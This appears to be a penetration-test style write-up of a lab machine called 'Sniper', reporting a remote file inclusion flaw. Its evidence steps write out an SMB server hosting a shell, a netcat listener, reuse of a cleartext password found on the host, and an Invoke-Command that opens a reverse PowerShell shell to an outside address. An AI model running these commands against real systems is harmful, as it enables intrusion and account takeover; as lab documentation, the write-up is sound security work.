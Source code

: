 
# Executive Summary – Sniper 

# Remote File Inclusision 

## Description
A vulnerability was discovered in the web application that allows an attacker to cause the server to reveal files it should keep private and downloadfiles it should not . During testing, the server was able to execute command to downlaod a remote file which lead to attacker accessing web server terminal. THis then lead to exposure oe server informaion such as user credentials — which were then successfully used to access a local account. Because exposed credentials can be reused across systems, this creates a credible path for an attacker to move laterally inside the network and access additional systems or data. 



## Impact 
High. The vulnerability allowed disclosure of confidential information (including cleartext credentials and user identifiers) via file inclusion. Those credentials were validated against a host account, enabling account takeover of a local user. With valid credentials and file‑disclosure capability, an attacker could perform lateral movement, access sensitive data, and — in worst‑case scenarios — achieve remote command execution on other systems. This has direct consequences for confidentiality, integrity, and availability of the affected environment.

## Likelihood:
The filename-construction pattern (user_input + suffix → blog-es.php) is a well-known indicator that testers and attackers will probe for Local File Inclusion (LFI). Because the application builds filenames from user-controlled input, the probability that an attacker can manipulate this to read arbitrary local files is high unless the input is strictly validated or mapped to a whitelist.


## Evidence:

1. Turn on Bupr Suite and suite and change to a known windows location. As you can see we have exposure of file. 
    <img src="images/LFI-test.png" alt="LFI test">

2. Turn Public folder into SMB and upload Remote Code Execution shell 
    impacket-smbserver -smb2support SMB1 /home/franky/Public 
3. Create reverse shell and upload file to smb folder
4. Start Netcat `nc -lvnp 1234`
5. Upload file to server 
    <img src="images/smb-upload-test.png" alt="smb upload">
6. Look for files on server and will find a password 
<img src="images/password.png" alt="password found">
7. Change dirctory to C:\Users to find other user Chris 
8. Creates a PSCredential for SNIPER\Chris using password we found and uses it to remote machine SNIPER as Chris. 

` $pass = "36mEAhz/B8xQ~2VM"`
`$pass = ConvertTo-SecureString "36mEAhz/B8xQ~2VM" -AsPlainText -Force`
`$cred = New-Object  System.Management.Automation.PSCredential("SNIPER\\Chris", $pass) `
Check to see if it was successful 
` Invoke-Command -ComputerName SNIPER -Credential $cred -ScriptBlock {whoami} `

9. Run netcat from an SMB share on SNIPER (authenticating as $cred) to create a reverse PowerShell shell back to our machine as Chris. 

` Invoke-Command -ComputerName SNIPER -Credential $cred -ScriptBlock {\\10.10.16.34\smb1\nce.exe 10.10.16.34 9001 -e powershell}`

Note: If have issues use Test-Path to see if issue with acessing SMB 

<img src="images/rce-chris.png" alt="rce chris">

Have access to the user Chris terminal  

<img src="images/Chris connection.png" alt="chris">






